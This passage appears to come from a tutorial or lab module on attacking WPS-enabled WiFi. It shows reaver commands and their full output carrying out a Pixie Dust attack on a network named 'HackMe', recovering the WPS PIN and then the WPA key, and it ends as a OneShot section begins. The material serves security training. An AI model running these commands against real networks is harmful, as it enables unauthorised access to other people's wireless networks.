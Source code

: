 The output reveals a WPS WiFi network named `HackMe`. We can use Reaver to perform a Pixie Dust attack against it, specifying the `-K` (or `--pixie-dust`) option.

```shell
reaver -K 1 -vvv -b 86:FC:9F:5D:67:4E -c 1 -i mon0

Reaver v1.6.5 WiFi Protected Setup Attack Tool
Copyright (c) 2011, Tactical Network Solutions, Craig Heffner <[email protected]>

[+] Switching mon0 to channel 1
[+] Waiting for beacon from 86:FC:9F:5D:67:4E
[+] Received beacon from 86:FC:9F:5D:67:4E
WPS: A new PIN configured (timeout=0)
WPS: UUID - hexdump(len=16): [NULL]
WPS: PIN - hexdump_ascii(len=8):
<SNIP>
 [?] Mode:     1 (RT/MT/CL)
 [*] Seed N1:  0x08098b13
 [*] Seed ES1: 0x00000000
 [*] Seed ES2: 0x00000000
 [*] PSK1:     fe3fce4475701deda27e52518cc8be56
 [*] PSK2:     2dc52385b199358cea1ad97d1995bca2
 [*] ES1:      00000000000000000000000000000000
 [*] ES2:      00000000000000000000000000000000
 [+] WPS pin:  32552273

 [*] Time taken: 0 s 34 ms

```

The Pixie Dust attack was successful, and the PIN `32552273` was recovered. We can subsequently use this PIN to obtain the PSK (Pre-Shared Key) for the WiFi network.

```shell
reaver -b 86:FC:9F:5D:67:4E -c 1 -p 32552273 -i mon0

Reaver v1.6.5 WiFi Protected Setup Attack Tool
Copyright (c) 2011, Tactical Network Solutions, Craig Heffner <[email protected]>

[+] Waiting for beacon from 86:FC:9F:5D:67:4E
[+] Received beacon from 86:FC:9F:5D:67:4E
[!] Found packet with bad FCS, skipping...
[+] Associated with 86:FC:9F:5D:67:4E (ESSID: HackMe)
[+] WPS PIN: '32552273'
[+] WPA PSK: '<SNIP>'
[+] AP SSID: 'HackMe'

```

* * *

### Using Oneshot

To perform a Pixie Dust attack using [OneShot](https://github.com/fulvius31/OneShot/tree/master), we again require our interface to be in monitor mode. However, before proceeding, we should delete the previously configured `mon0` interface.
